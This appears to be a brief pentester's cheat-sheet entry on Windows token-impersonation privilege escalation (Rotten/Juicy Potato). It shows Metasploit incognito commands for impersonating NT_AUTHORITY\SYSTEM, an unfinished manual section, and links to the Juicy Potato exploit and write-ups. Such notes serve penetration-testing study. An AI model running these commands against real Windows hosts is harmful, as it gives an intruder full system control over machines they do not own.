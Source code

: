 -- -
#### metasploit
```bash
# Assuming you have a meterpreter shell
# load incognito module
load incognito

# list impersonate tokens
list_tokens -u

# if you find something to use, in this case NT_AUTHORITY\SYSTEM
impersonate_token "NT_AUTHORITY\SYSTEM"
```
#### Manual Exploitation
**Come back and do this you lazy bum.** 
- [Download Exploit Executable](https://github.com/ohpe/juicy-potato)
- [Then do what's outlined here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
#### Resources
- [Rotten Potato's Blog post](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [Juicy Potato Repo](https://github.com/ohpe/juicy-potato)
